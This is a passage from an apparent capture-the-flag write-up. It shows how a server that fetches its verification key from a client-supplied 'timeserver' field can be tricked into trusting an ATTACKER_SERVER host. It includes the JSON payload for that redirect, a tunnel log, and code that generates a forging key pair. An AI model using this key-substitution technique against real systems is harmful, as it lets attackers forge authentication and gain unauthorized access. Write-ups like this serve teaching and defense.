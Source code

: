 If we change the timestamp, we get a `401: Unauthorized` error because the signature does not match.

{% code overflow="wrap" %}
```python
pubkey = get_pubkey_of_timeserver(timeserver)
h = SHA256.new(timestamp)
verifier = DSS.new(pubkey, 'fips-186-3')
verifier.verify(h, signature)
```
{% endcode %}

So, let's try to provide our own timeserver and see if we get a hit.

{% code overflow="wrap" %}
```json
{
    "timestamp": "1719135562",
    "signature": "c8a319c7e3b02ce295171f870682d22902c21dcc875f6da860f73e3abfa9cacf27b6d1cebcc18ad92cd00cdad97ecb90caddcd3530d0c06daa9a93c66290c022",
    "timeserver": "ATTACKER_SERVER"
}
```
{% endcode %}

We do!

{% code overflow="wrap" %}
```bash
+-------------------------+----------------------------------+
| Public tunnel URL       |     https://ATTACKER_SERVER      |
+-------------------------+----------------------------------+
| Local inspect dashboard |     http://localhost:46607       |
+-------------------------+----------------------------------+
| Forwarding traffic to   |     http://localhost:80          |
+-------------------------+----------------------------------+
404		GET	/pubkey
```
{% endcode %}

So, if we create our own key pair, we can sign custom forged timestamps with our own private key and then trick the server into verifying the signature against our public key!

Let's generate the keys first - remember that the filename needs to be `pubkey`.

{% code overflow="wrap" %}
```python
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM'))
```
{% endcode %}
